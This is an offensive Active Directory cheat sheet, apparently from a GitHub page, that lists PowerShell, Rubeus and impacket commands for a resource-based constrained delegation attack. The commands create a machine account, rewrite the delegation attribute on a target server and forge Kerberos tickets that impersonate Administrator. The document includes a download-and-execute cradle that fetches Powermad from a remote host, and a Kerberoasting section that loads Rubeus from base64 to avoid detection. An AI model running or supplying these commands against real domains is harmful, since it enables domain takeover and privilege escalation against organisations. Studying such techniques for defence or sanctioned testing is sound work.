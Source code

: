 Get machine quota in the domain
```powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```

Add computer using PowerMad
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/Powermad.ps1') | IEX

New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
```

Update msDS-AllowedToActOnBehalfOfOtherIdentity of 'server' object to newly created machine
```powershell
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity server | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Use computer account to generate ticket
```
.\Rubeus.exe s4u /user:myComputer$ /rc4:x /impersonateuser:administrator /msdsspn:CIFS/dc01.domain.com /ptt
```

Add computer using impacket
```
python3 /usr/share/doc/python3-impacket/examples/addcomputer.py -k -no-pass -computer-name 'rbcd$' -computer-pass 'Password12345' -dc-ip 1.1.1.1 DOMAIN/user -dc-host dc.domain.com
```

Update msDS-AllowedToActOnBehalfOfOtherIdentity of 'server' object to newly created machine using impacket
```
python3 rbcd.py -delegate-to 'HOST$' -delegate-from 'rbcd$' -action write -k -no-pass DOMAIN/user -debug
```

Get service ticket using impacket
```
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn CIFS/HOST.DOMAIN.COM -impersonate 'Administrator' -dc-ip 1.1.1.1 'DOMAIN/rbcd$:Password12345'
```

## Kerberoasting

PowerShell load assembly Rubeus from base64
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt

$a = Get-Content .\rubeus.txt
$assem = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($a))
```

